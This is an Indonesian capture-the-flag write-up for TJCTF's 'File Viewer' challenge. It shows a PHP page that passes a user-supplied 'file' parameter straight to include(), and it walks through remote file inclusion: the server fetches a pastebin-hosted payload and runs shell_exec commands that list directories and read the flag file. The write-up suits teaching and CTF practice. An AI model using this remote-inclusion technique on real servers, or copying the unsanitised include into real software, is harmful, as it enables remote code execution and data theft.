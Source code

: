## File Viewer,70 ##

Soal :

`So I've been developing this really cool site where you can read text files! It's still in beta mode, though, so there's only six files you can read.`

[Site](https://file_viewer.tjctf.org)

Ada sebuah input form dalam site. Jika kita lakukan input, ternyata site menggunakan `http://file_viewer.tjctf.org/reader.php?file=` untuk menampilkan file yang kita minta.

```php
$file = $_GET[‘file’];
include($file);
```

Karena ternyata hanya seperti itu, kita dapat melakukan RFI. Dengan menggunakan bantuan dari pastebin, `(http://file_viewer.tjctf.org/reader.php?file=https://pastebin.com/yourpayloadhere)` saya membuat payload dengan isi :

```php
<?php
echo shell_exec("ls");
?>
```
ternyata ada satu direktori yang bernama `i_wonder_whats_in_here`.

Setelah itu cek ada apa saja di direktori itu dengan :

```php
<?php
echo shell_exec("ls i_wonder_whats_in_here")
?>
```
Ternyata ada sebuah file dengan nama `flag.php`.

Langsung saja saya `cat` file tersebut, lihat source page, dan flag berhasil didapatkan.

Flag : `tjctf{n1c3_j0b_with_lf1_2_rc3}`


